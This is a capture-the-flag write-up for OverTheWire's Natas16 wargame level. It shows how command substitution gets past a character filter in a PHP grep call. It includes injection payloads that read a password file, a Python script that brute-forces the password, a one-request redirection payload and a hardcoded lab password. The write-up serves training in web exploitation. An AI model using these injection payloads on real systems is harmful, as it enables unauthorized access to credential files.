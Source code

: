 ```yaml
---
layout: post
title: Natas16 Writeup
categories:
  - CTF writeups
  - natas
tags:
  - beginner
  - command injection
  - python
  - script
description: Weird Grep Command Injection
date: 2024-10-27 12:40 -0400
---
```


### Source Code Analysis

```php
if(array_key_exists("needle", $_REQUEST)) {
    $key = $_REQUEST["needle"];
}

if($key != "") {
    if(preg_match('/[;|&`\'"]/',$key)) {
        print "Input contains an illegal character!";
    } else {
        passthru("grep -i \"$key\" dictionary.txt");
    }
}
```

In this source code, we can see the `needle` parameter gets filtered
and placed directly into the grep command. So the first thing I could
think about is check for simple command injection, which I couldn't as
all of the operators are being filtered.

### Attack Vector

Doing some research reminds me the one of the most important function
for Linux, which is the command substitution `$(command)`. This allows
us to virtually run any command in the needle parameter, as this is pass
through as a `grep` command. With this the only thing missing is how can
we indicate the results of the command?

With the previous experience of natas15 and this being a `grep` command,
we can create a binary indicator. After a bit of trial and error, we know
that `doctors` is a single word in `dictionary.txt` (not a part of other words).
Then we can manipulate the needle parameter like this:

> `doctors$(grep a /etc/natas_webpass/natas17)`

For the substituted `grep` function, if the character exists in the password,
it will return the password, when combined with the word `doctors` it will not be found
in the dictionary. This means we can check if `doctors` exists in the response; If it
does, then the character does not exist in the password, vice versa.

### Some Regex Magic

Now for the last part, we have to know the order of the characters, it is impossible
to brute force the order of the password. For that we simply use the power of `regex`.

With `^` indicating the beginning of the word, we can check if the password starts with
some characters. For example, `^st` would match the word `start` and `star`, but not `ast`.
With this we can build a similar loop, finishing with a script to get the solution.

### Solution

```python
import requests
from requests.auth import HTTPBasicAuth
from halo import Halo

stage = 16
password = "hPkjKYviLQctEW33QmuXL6eDVfMW4sGo"

username = f"natas{stage}"
url = f"http://natas{stage}.natas.labs.overthewire.org/index.php"
auth = HTTPBasicAuth(username, password)

passwd = ""
passwd_len = 32
charset = "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789"

with Halo(text="Enumerating", spinner="dots") as loading:
    loading.start()
    print("\n")
    for i in range(passwd_len):
        for char in charset:
            # Move cursor up two lines and clear them before printing the new update
            print("\033[F\033[K\033[F\033[K", end="")

            data = {
                "needle": f"doctors$(grep ^{passwd + char} /etc/natas_webpass/natas17)"
            }

            print(f"Password: {passwd}\nQuery: {data}")

            r = requests.post(url, auth=HTTPBasicAuth(username, password), data=data)
            if "doctors" not in r.text:
                passwd += char
                break

print(f"Final password: {passwd}")

```

### Bonus Solution

This extra solution I came across in the comments section of [John Hammond's Writeup](https://youtu.be/6XlDsn-R5oQ?si=-ZWvsVRav3Cn66WC)
which is super interesting, so I've decided to include here as well.

> It's also possible to solve this with a single request using a redirection trick:
> `$(cat /etc/natas_webpass/natas17 > /proc/$$/fd/1)qqq`
>
> Explanation:
>
> `$$` - current bash PID
>
> `/proc/{process ID}/fd/1` - `stdout` of a specific process
>
> qqq - a search string likely to return empty results

Solution by [@geetub9073](https://www.youtube.com/@geetub9073)
